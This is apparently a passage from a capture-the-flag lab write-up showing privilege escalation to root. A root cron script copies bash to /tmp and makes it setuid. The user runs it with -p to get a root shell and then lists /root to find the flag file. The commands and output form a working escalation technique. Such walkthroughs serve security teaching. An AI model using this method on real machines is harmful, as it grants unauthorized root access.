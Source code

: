 #!/bin/bash
# i will run as root
```

```
boring@kral4-PC:/tmp$ cat /var/www//.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
cp /bin/bash /tmp/mal_bash

chmod +xs /tmp/mal_bash

boring@kral4-PC:/tmp$ ls -l
total 1104
-rwsr-sr-x 1 root root 1113504 Oct 13 16:59 mal_bash
drwx------ 3 root root    4096 Oct 13 15:28 systemd-private-252828c62d9e47408f37948c25b5aa52-apache2.service-Pxm0cZ
drwx------ 3 root root    4096 Oct 13 15:27 systemd-private-252828c62d9e47408f37948c25b5aa52-ModemManager.service-wkIemM
drwx------ 3 root root    4096 Oct 13 15:27 systemd-private-252828c62d9e47408f37948c25b5aa52-systemd-resolved.service-R6q2zH
drwx------ 3 root root    4096 Oct 13 15:27 systemd-private-252828c62d9e47408f37948c25b5aa52-systemd-timesyncd.service-SfXCtD
boring@kral4-PC:/tmp$ ./mal_bash -p
mal_bash-4.4# whoami 
root
mal_bash-4.4# 

```

```
mal_bash-4.4# find -name "*root.txt" 
./root/.root.txt
mal_bash-4.4# cd root/
mal_bash-4.4# ls
mal_bash-4.4# ls -l
total 0
mal_bash-4.4# ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root  883 Jun 15  2020 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
```

